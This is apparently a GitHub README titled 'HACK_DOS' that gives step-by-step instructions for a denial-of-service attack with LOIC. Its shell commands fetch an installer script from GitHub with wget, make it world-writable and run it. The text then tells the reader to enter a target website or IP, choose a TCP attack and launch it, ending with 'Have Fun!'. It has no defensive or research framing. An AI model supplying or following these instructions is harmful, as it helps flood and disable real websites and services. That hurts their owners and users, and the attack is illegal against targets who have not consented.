 # HACK_DOS
Denial of Service attack

# Linux commands:
>> apt install git-core monodevelop



>> cd Desktop
>> mkdir loic
>> wget https://raw.github.com/nicolargo/loicinstaller/master/loic.sh
>> chmod 777 loic.sh
>> ./loic.sh install
>> ./loic.sh update
>> apt-get install mono-gmcs
>> ./loic.sh run


Then a LOIC GUI will be opened.]
Then copy and paste or type the website name or enter the IP.
Then enter the type of attack - TCP attack
Select time delay
Select launch attack
Have Fun!
